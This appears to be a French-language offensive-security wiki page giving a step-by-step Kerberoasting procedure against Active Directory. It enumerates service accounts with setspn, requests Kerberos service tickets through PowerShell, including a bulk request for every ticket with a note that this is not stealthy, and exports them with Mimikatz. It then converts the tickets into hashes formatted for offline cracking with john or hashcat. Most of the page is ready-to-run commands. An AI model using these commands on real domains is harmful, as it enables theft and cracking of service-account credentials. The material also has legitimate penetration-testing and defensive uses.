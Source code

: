 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Récupérer un TGS

### Liste des comptes avec leurs SPNs

```shell
# Enumérer tous les SPNs
setspn.exe -q */*
```

### Demande d'un TGS

```powershell
# Demander un TGS pour le SPN désiré (compte utilisateur)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MyUSERWithSPN/srvtest.domain.local"
```

### Demander tous les TGS existants

Attention, cela ne sera pas du tout furtif !

```powershell
# Demander tous les TGS possibles
Add-Type -AssemblyName System.IdentityModel
setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extraire le ou les Tickets (TGS)

Une fois les TGS générés par le KDC et stockés dans le système d'exploitation, on peut les récupérer via `Mimikatz`.

```
mimikatz # base64 /out:true    <==== si on veut les transférer par copier / coller par exemple
mimikatz # base64 /out:true    <==== si on veut générer des fichiers .kirbi

mimikatz # kerberos::list /export  
```

```shell
# conversion depuis base64
echo "<base64 blob>" |  tr -d \\n | base64 -d > myUser.kirbi
# Extraction du hash pour l'utiliser avec john / hashcat
kirbi2john.py myUser.kirbi > vmware.hash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' myuser.hash > myUser_tgs_hashcat
```

[[Cassage de mots de passes Kerberos]]
